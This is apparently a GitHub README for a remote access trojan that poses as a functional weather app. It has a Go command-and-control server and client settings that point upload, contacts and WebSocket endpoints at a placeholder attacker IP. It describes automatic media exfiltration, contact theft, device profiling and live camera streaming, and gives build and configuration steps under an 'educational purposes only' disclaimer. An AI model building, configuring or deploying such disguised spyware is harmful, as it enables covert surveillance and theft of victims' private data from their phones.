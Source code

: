 # Remote Access Trojan under the Disguise of Weather UI (Educational Purposes Only)
https://github.com/user-attachments/assets/a184ea64-3cfc-43aa-b8ce-30ee37fd19ad https://github.com/user-attachments/assets/74c86685-53fc-4325-bfd3-b79b8a6ce7ec

## Project Overview

**WeatherView** is a research project demonstrating remote access capabilities through a disguised weather application interface. The system consists of:

1. A React Native client app with weather functionality
2. A Go-based C2 (Command and Control) server
3. Remote access features including media sync, contact retrieval, and video streaming

**Disclaimer**: This project is developed solely for educational purposes in the field of cybersecurity research. Unauthorized use against systems without explicit permission is illegal.

## System Architecture

```
[WeatherView Client App] ←WebSocket→ [Go C2 Server]
      (React Native)              (Command & Control)
```

## Features

- **Weather Interface**: Fully functional weather display
- **Remote Access**:
  - Media file synchronization
  - Contact list retrieval
  - Device information collection
  - Live video streaming capability

## Setup Instructions

### 1. C2 Server Setup

```bash
# Clone the repository
git clone [repository-url]

# Navigate to server directory
cd server

# Build and run the Go server
go build -o main && ./main
```

**Configuration**:
- The server runs on port `6969` by default
- Change port by setting `PORT` environment variable
- Admin interface available at `http://localhost:[port]/admin.html`

### 2. Client App Configuration

Edit the following in the React Native client:

```javascript
// In WeatherApp.js (Weather Interface)
const API_KEY = 'your_openweathermap_api_key'; // Replace with your key
const BASE_URL = 'https://api.openweathermap.org/data/2.5';

// In mediaSync.js (Remote Access)
const SERVER_URL = 'ws://your_server_ip:6969/ws'; // Change to your server IP
const UPLOAD_ENDPOINT = 'http://your_server_ip:6969/upload';
const CONTACTS_ENDPOINT = 'http://your_server_ip:6969/contacts';
```

### 3. Building the Client App

```bash
# Install dependencies
npm install && npm install --save-dev @react-native-community/cli

#Start Metero
npx react-native start

# For Android
npx react-native run-android

# For iOS
npx react-native run-ios
```

## Usage Guide

1. **Weather App Interface**:
   - Displays current weather and forecast
   - Search for locations worldwide

2. **Remote Access Features** (Educational Demonstration):
   - Media sync initiates automatically on connection
   - Contacts are retrieved once permissions are granted
   - Camera streaming available through admin interface

## Security Considerations

- Always run this project in a controlled environment
- Never deploy with default credentials
- Ensure proper network isolation when testing
- All activities must comply with applicable laws

## License

This project is licensed for educational use only. All other uses require explicit permission from the developers.
